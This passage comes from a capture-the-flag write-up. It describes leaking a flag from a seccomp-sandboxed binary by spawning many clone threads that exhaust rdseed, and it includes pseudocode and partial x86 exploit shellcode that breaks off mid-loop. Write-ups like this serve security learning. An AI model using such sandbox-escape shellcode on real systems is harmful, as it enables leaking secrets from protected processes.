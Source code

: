 As the reference suggests, if there are multiple threads that calls `rdseed` very frequently, the `rdseed` is very likely to gives zero. Thus, noting that `clone` is allowed in `seccomp` sandbox, the idea comes up: creating multiple threads calling `rdseed` in a infinite loop to let `rdseed` of `bozo.bin` thread give zero.

### Pseudo Code

In previous section I have mentioned an idea to leak the flag byte one by one, and here is the pseudo code describing that approach:

```python
while True:
	for i in [1...255] # iterate from 1-255
		[rbx] = i # set +0xff8 to i
		wait # wait for some while, 
        # to make sure this value is checked by bozo.bin thread
		if [rbx] == 0: # if +0xff8 is set to 0, current value is correct
			print i # print the byte value
			break # try the next byte
```

### Shellcode

Adding the code that initiates threads that frequently call `rdseed`, we can write our shellcode as shown below:

```assembly
call next
next: pop rbx

mov rbp, %s ; parameterize number of threads
clones:
	mov rdi,0x18900 
	; use the same flag as that of bozo.bin thread
	mov rsi,rsp
	sub rsi,0x2000
	; stack is rsp-0x2000, although not used
	mov rax,SYS_clone
	syscall ; call clone
	test rax, rax
	jz rdseed_loop 
	; let child thread execute the rdseed loop
	dec rbp
	test rbp,rbp
jnz clones

add rbx, -5+0xff8 ; rbx = RWX+0xff8
mov rsi, rbx
sub rsi, 8 ; rsi = buffer for SYS_write
mov rax, SYS_write
mov rdi, 1 ; fd = stdout
mov rdx, 1 ; size = 1
; load the needed arguement into register first
; to reduce size of the loop
; therefore the crack_loop is less likely to be destructed

mov rcx,0x100
wait0: loop wait0
; wait for a while to ensure threads are started
; maybe it is not needed

crack_loop:
	mov r8,1 ; i = 1
	byte_loop:
		mov qword ptr [rbx], r8 ; [rbx] = i
```